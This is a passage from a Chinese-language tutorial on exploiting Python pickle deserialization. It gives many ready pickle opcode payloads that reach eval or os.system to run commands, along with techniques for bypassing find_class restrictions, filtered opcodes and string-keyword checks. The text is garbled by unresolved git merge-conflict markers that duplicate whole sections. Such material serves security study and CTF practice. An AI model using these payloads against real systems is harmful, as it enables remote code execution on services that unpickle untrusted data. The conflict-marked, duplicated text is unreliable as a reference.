'operator': <module 'operator' from 'C:\\Python311\\Lib\\operator.py'>, 'reprlib': <module 'reprlib' from 'C:\\Python311\\Lib\\reprlib.py'>, '_collections': <module '_collections' (built-in)>, 'collections': <module 'collections' from 'C:\\Python311\\Lib\\collections\\__init__.py'>, 'types': <module 'types' from 'C:\\Python311\\Lib\\types.py'>, '_functools': <module '_functools' (built-in)>, 'functools': <module 'functools' from 'C:\\Python311\\Lib\\functools.py'>, 'contextlib': <module 'contextlib' from 'C:\\Python311\\Lib\\contextlib.py'>, 'enum': <module 'enum' from 'C:\\Python311\\Lib\\enum.py'>, 'ast': <module 'ast' from 'C:\\Python311\\Lib\\ast.py'>, '_opcode': <module '_opcode' (built-in)>, 'opcode': <module 'opcode' from 'C:\\Python311\\Lib\\opcode.py'>, 'dis': <module 'dis' from 'C:\\Python311\\Lib\\dis.py'>, 'collections.abc': <module 'collections.abc' from 'C:\\Python311\\Lib\\collections\\abc.py'>, 'importlib._bootstrap': <module '_frozen_importlib' (frozen)>, 'importlib._bootstrap_external': <module '_frozen_importlib_external' (frozen)>, 'warnings': <module 'warnings' from 'C:\\Python311\\Lib\\warnings.py'>, 'importlib': <module 'importlib' from 'C:\\Python311\\Lib\\importlib\\__init__.py'>, 'importlib.machinery': <module 'importlib.machinery' (frozen)>, '_sre': <module '_sre' (built-in)>, 're._constants': <module 're._constants' from 'C:\\Python311\\Lib\\re\\_constants.py'>, 're._parser': <module 're._parser' from 'C:\\Python311\\Lib\\re\\_parser.py'>, 're._casefix': <module 're._casefix' from 'C:\\Python311\\Lib\\re\\_casefix.py'>, 're._compiler': <module 're._compiler' from 'C:\\Python311\\Lib\\re\\_compiler.py'>, 'copyreg': <module 'copyreg' from 'C:\\Python311\\Lib\\copyreg.py'>, 're': <module 're' from 'C:\\Python311\\Lib\\re\\__init__.py'>, 'token': <module 'token' from 'C:\\Python311\\Lib\\token.py'>, 'tokenize': <module 'tokenize' from 'C:\\Python311\\Lib\\tokenize.py'>, 'linecache': <module 'linecache' from 'C:\\Python311\\Lib\\linecache.py'>, 'inspect': <module 'inspect' from 'C:\\Python311\\Lib\\inspect.py'>, 'rlcompleter': <module 'rlcompleter' from 'C:\\Python311\\Lib\\rlcompleter.py'>, '_struct': <module '_struct' (built-in)>, 'struct': <module 'struct' from 'C:\\Python311\\Lib\\struct.py'>, '_compat_pickle': <module '_compat_pickle' from 'C:\\Python311\\Lib\\_compat_pickle.py'>, '_pickle': <module '_pickle' (built-in)>, 'pickle': <module 'pickle' from 'C:\\Python311\\Lib\\pickle.py'>}
```

出于需要使用 opcode 表示我们的命令的限制，我们最终构造出的 payload 是 `builtins.getattr(builtins.getattr(builtins.dict,'get')(builtins.golbals(),'builtins'),'eval')(command)`

写成 opcode 就是这样的

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
geteval = b'''cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'eval'
tR(S'__import__("os").system("whoami")'
tR.
'''
```

如果用 pker 生成 opcode 的话就是这样的

payload"`getattr(builtins.dict,"get")(sys.modules,"os").system("whoami")`

给 pker 的输入

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
get=getattr(dict,'get')
mod=GLOBAL('sys','modules')
os=get(mod,'os')
system=getattr(os,'system')
system("whoami")
return
```

用 pker 写成 opcode

<<<<<<< HEAD
```plain
opcode=b"cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS'get'\ntRp2\n0csys\nmodules\np3\n0g2\n(g3\nS'os'\ntRp4\n0g0\n(g4\nS'system'\ntRp5\n0g5\n(S'whoami'\ntR."
```

###### 利用 `builtins.globals()` 获取危险函数.

还可以用 builtins 的 `globals()` 方法获取危险函数.`globals()` 方法返回一个字典

> 返回的字典包含了所有全局作用域内的名称（键）及其对应的值（值）. 这个字典反映了当前模块全局命名空间的状态

其中固然也包含了一些危险模块.

```plain
=======
```bash
opcode=b"cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS'get'\ntRp2\n0csys\nmodules\np3\n0g2\n(g3\nS'os'\ntRp4\n0g0\n(g4\nS'system'\ntRp5\n0g5\n(S'whoami'\ntR."
```

###### 利用 `builtins.globals()` 获取危险函数。

还可以用 builtins 的 `globals()` 方法获取危险函数。`globals()` 方法返回一个字典

> 返回的字典包含了所有全局作用域内的名称（键）及其对应的值（值）. 这个字典反映了当前模块全局命名空间的状态

其中固然也包含了一些危险模块。

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
>>> builtins.globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'builtins': <module 'builtins' (built-in)>, 'os': <module 'os' (frozen)>, 'pickle': <module 'pickle' from 'C:\\Python311\\Lib\\pickle.py'>, 'sys': <module 'sys' (built-in)>}
```

例如这里就出现了 `os`.

<<<<<<< HEAD
道理和上边一样.

pker 的输入

```plain
=======
道理和上边一样。

pker 的输入

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
globa1=GLOBAL("builtins","globals")
glob=globa1()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
builtins=get(glob,"__builtins__")
eval=getattr(builtins,"eval")
eval('__import__("os").system("whoami")')
return
```

生成的 opcode

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
output=b'cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS\'get\'\ntRp4\n0g4\n(g1\nS\'__builtins__\'\ntRp5\n0g3\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
```

`R` 操作符被过滤时，可以使用如下 payload:

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b'\x80\x03(cbuiltins\ngetattr\np0\ncbuiltins\ndict\np1\nX\x03\x00\x00\x00getop2\n0(g2\n(cbuiltins\nglobals\noX\x0C\x00\x00\x00__builtins__op3\n(g0\ng3\nX\x04\x00\x00\x00evalop4\n(g4\nX\x21\x00\x00\x00__import__("os").system("calc")o00.
```

##### 思路二 获取没有被重写的 `pickle.loads` 函数

<<<<<<< HEAD
构造的 payload `builtins.dict.get(builtins.globals(),"pickle").loads()` 但是这个思路有个 bug,`loads()` 函数只能传入 `byte` 类型的字符串。所以对于 v0 的 opcode 必须要引入其他函数来改变字符串类型。这就导致可能不能很好地绕过 `find_class()` 的重写。好在在 v3 的 opcode 中有 `B` 和 `C` 操作符可以向栈中压入 byte 类型的字符串。但是 pker 不能直接调用操作符。就需要我们自己手搓.

pker 的输入

```plain
=======
构造的 payload `builtins.dict.get(builtins.globals(),"pickle").loads()` 但是这个思路有个 bug,`loads()` 函数只能传入 `byte` 类型的字符串。所以对于 v0 的 opcode 必须要引入其他函数来改变字符串类型。这就导致可能不能很好地绕过 `find_class()` 的重写。好在在 v3 的 opcode 中有 `B` 和 `C` 操作符可以向栈中压入 byte 类型的字符串。但是 pker 不能直接调用操作符。就需要我们自己手搓。

pker 的输入

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
funcglob=GLOBAL("builtins","globals")
glob=funcglob()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
pickle=get(glob,"pickle")
loads=getattr(pickle,"loads")
loads("bytestr")
```

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b"cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS'get'\ntRp4\n0g4\n(g1\nS'pickle'\ntRp5\n0g3\n(g5\nS'loads'\ntRp6\n0g6\n(S'bytestr'\ntR"
```

这里需要把生成的 opcode 的 `S'bytestr'` 改成 byte 字符串，用了 `B`

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b"cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS'get'\ntRp4\n0g4\n(g1\nS'pickle'\ntRp5\n0g3\n(g5\nS'loads'\ntRp6\n0g6\n(B\x0E\x00\x00\x00youropcodehere\ntR"
```

#### 绕过显式字符串检测

`V` 操作符可以进行 unicode 编码

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
Vsecr\u0065t
#secret
```

`S` 操作符可以识别十六进制

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
S'\x73ecret'
#secret
```

#### 使用内置函数绕过

<<<<<<< HEAD
涉及到一对概念：可迭代对象 (iterable) 和迭代器 (iterator). 最经典的迭代器就是 python 中的 for 循环.

```plain
=======
涉及到一对概念：可迭代对象 (iterable) 和迭代器 (iterator). 最经典的迭代器就是 python 中的 for 循环。

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
for i in iterator
    ......
```

在 python 中有很多可迭代对象

1.  **序列类型**：
    -   列表（List）: `[1, 2, 3, 4, 5]`
    -   元组（Tuple）: `(1, 2, 3)`
    -   字符串（String）: `"Hello, World"`
2.  **映射类型**：
    -   字典（Dictionary）: `{1: 'One', 2: 'Two'}`
    -   注意：虽然字典本身不是可迭代的（字典迭代实质上是迭代其键，使用 `keys()`、`values()` 或 `items()` 方法可以分别迭代键、值或键值对），但从 Python 3.3 开始，字典也成为了可迭代对象，迭代时会返回其键。
3.  **集合类型**：
    -   集合（Set）: `{1, 2, 3}`
    -   frozenset（不可变集合）: `frozenset({1, 2, 3})`
4.  **迭代器类型**：
    -   自定义迭代器类（实现了`__iter__()` 和`__next__()` 方法）
    -   内置迭代器对象，如 `range(5)` 或者通过 `iter()` 函数创建的迭代器
5.  **文件对象**：
    -   打开的文本文件或二进制文件，可通过逐行读取进行迭代
6.  **生成器表达式**：
    -   `(x*x for x in range(5))`
7.  其他内置可迭代对象：
    -   enumerate 对象 (`enumerate(list)`)
    -   zip 对象 (`zip(list1, list2)`)
    -   reversed 对象 (`reversed(list)`)

只要一个对象实现了 `__iter__()` 方法且该方法返回一个迭代器对象，那么这个对象就被认为是可迭代的。在 Python 中，可以使用 `isinstance(obj, collections.abc.Iterable)` 来检查一个对象是否是可迭代的。

具体的利用参照这个 payload

<<<<<<< HEAD
```plain
next(dir(sys.modules['os']))
 TypeError: 'list' object is not an iterator
#如果直接运行这个的话会抛出一个TypeError: 'list' object is not an iterator
#原因是虽然list是可迭代的,但是他并不是一个迭代器,他并没有__call__函数
>>> next(iter(dir(sys.modules['os'])))
'DirEntry'
#这才是正确的payload
#如果想倒着遍历这个列表的话,可以使用reversed()这个函数
=======
```bash
next(dir(sys.modules['os']))
 TypeError: 'list' object is not an iterator
#如果直接运行这个的话会抛出一个 TypeError: 'list' object is not an iterator
#原因是虽然 list 是可迭代的，但是他并不是一个迭代器，他并没有__call__函数
>>> next(iter(dir(sys.modules['os'])))
'DirEntry'
#这才是正确的 payload
#如果想倒着遍历这个列表的话，可以使用 reversed() 这个函数
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
>>> next(reversed(dir(sys.modules['os'])))
'write'
```

直接手搓比用 pker 舒服多了

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b"""(((c__main__
secret
i__builtins__
dir
i__builtins__
reversed
i__builtins__
next
."""
```

只用到了 `c` 和 `i`, 遥遥领先

##### 使用类的`__new__()` 构造方法绕过

着重注意这个操作符

<<<<<<< HEAD
```plain
NEWOBJ = b'\x81'#(这个很有用)  #从栈中弹出两次变量,第一次弹出的变量记为var1,第二次弹出的变量记为var2,然后就会通过cls.__new__(var2, *var1)生成实例化对象,然后将生成的对象压栈
```

他是可以触发类的`__new__()` 函数的，所以在某些时候可以寻找可用的`__new__()` 方法进行绕过。在下一个方法中，我们正是用了这一点才代替`__next__()` 方法进行迭代.
=======
```bash
NEWOBJ = b'\x81'#(这个很有用)  #从栈中弹出两次变量，第一次弹出的变量记为 var1，第二次弹出的变量记为 var2，然后就会通过 cls.__new__(var2, *var1) 生成实例化对象，然后将生成的对象压栈
```

他是可以触发类的`__new__()` 函数的，所以在某些时候可以寻找可用的`__new__()` 方法进行绕过。在下一个方法中，我们正是用了这一点才代替`__next__()` 方法进行迭代。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

##### 使用 `map()`,`filter()` 函数绕过

两个函数都是 python 的内置函数。首先来看 `map()` 和 `filter()` 是什么

map(*function*, *iterable*, \**iterables*)

<<<<<<< HEAD
> 返回一个将 *function* 应用于 *iterable* 的每一项，并产生其结果的迭代器。 如果传入了额外的 *iterables* 参数，则 *function* 必须接受相同个数的参数并被用于到从所有可迭代对象中并行获取的项。 当有多个可迭代对象时，当最短的可迭代对象耗尽则整个迭代将会停止。

filter(*function*, *iterable*)

> 使用 *iterable* 中 *function* 返回真值的元素构造一个迭代器。 *iterable* 可以是一个序列，一个支持迭代的容器或者一个迭代器。 如果 *function* 为 `None`，则会使用标识号函数，也就是说，*iterable* 中所有具有假值的元素都将被移除。
> 
> 请注意， `filter(function, iterable)` 相当于一个生成器表达式，当 function 不是 `None` 的时候为 `(item for item in iterable if function(item))`；function 是 `None` 的时候为 `(item for item in iterable if item)` 。

注意这两个函数都返回一个迭代器，所以我们需要使用 `list()` 函数将其变为一个列表输出.

payload

```plain
=======
> 返回一个将 *function* 应用于 *iterable* 的每一项，并产生其结果的迭代器。如果传入了额外的 *iterables* 参数，则 *function* 必须接受相同个数的参数并被用于到从所有可迭代对象中并行获取的项。当有多个可迭代对象时，当最短的可迭代对象耗尽则整个迭代将会停止。

filter(*function*, *iterable*)

> 使用 *iterable* 中 *function* 返回真值的元素构造一个迭代器。 *iterable* 可以是一个序列，一个支持迭代的容器或者一个迭代器。如果 *function* 为 `None`，则会使用标识号函数，也就是说，*iterable* 中所有具有假值的元素都将被移除。
> 
> 请注意， `filter(function, iterable)` 相当于一个生成器表达式，当 function 不是 `None` 的时候为 `(item for item in iterable if function(item))`；function 是 `None` 的时候为 `(item for item in iterable if item)` 。

注意这两个函数都返回一个迭代器，所以我们需要使用 `list()` 函数将其变为一个列表输出。

payload

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
map(eval,[__import__("os").system("whoami")])
list(map(eval,['__import__("os").system("whoami")']))
```

<<<<<<< HEAD
`map()` 和 `filter()` 创造的迭代器有一个叫做 " 懒惰” 的特性，也就是需要迭代一次，才能让 `func` 调用 `iterator` 里的值。所以我们就需要使用`__next__()` 方法对 `map()` 创建的迭代器进行迭代

参照 [AndyNoel](https://xz.aliyun.com/u/51470) 师哥的 payload:

```plain
=======
`map()` 和 `filter()` 创造的迭代器有一个叫做 " 懒惰”的特性，也就是需要迭代一次，才能让 `func` 调用 `iterator` 里的值。所以我们就需要使用`__next__()` 方法对 `map()` 创建的迭代器进行迭代

参照 [AndyNoel](https://xz.aliyun.com/u/51470) 师哥的 payload:

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
bytes.__new__(bytes, map.__new__(map, eval, ['print(1)']))  # bytes_new->PyBytes_FromObject->_PyBytes_FromIterator->PyIter_Next
tuple.__new__(tuple, map.__new__(map, exec, ["print('1')"]))  # tuple_new_impl->PySequence_Tuple->PyIter_Next
```

<<<<<<< HEAD
这样就可以通过`__new__()` 方法对 `map()` 生成的迭代器进行迭代了.

opcode:

```plain
=======
这样就可以通过`__new__()` 方法对 `map()` 生成的迭代器进行迭代了。

opcode:

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b'''c__builtin__
map
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
tuple
p4
(g3
t\x81.'''
```

还有

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b'''c__builtin__
map
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
bytes
p4
(g3
t\x81.'''
```

参考资料

[https://goodapple.top/archives/1069](https://goodapple.top/archives/1069)

[https://tttang.com/archive/1782/#toc\_waf](https://tttang.com/archive/1782/#toc_waf)

[https://xz.aliyun.com/t/11807](https://xz.aliyun.com/t/11807)

[https://xz.aliyun.com/t/12367](https://xz.aliyun.com/t/12367)

[https://cloud.tencent.com/developer/article/2287499](https://cloud.tencent.com/developer/article/2287499)
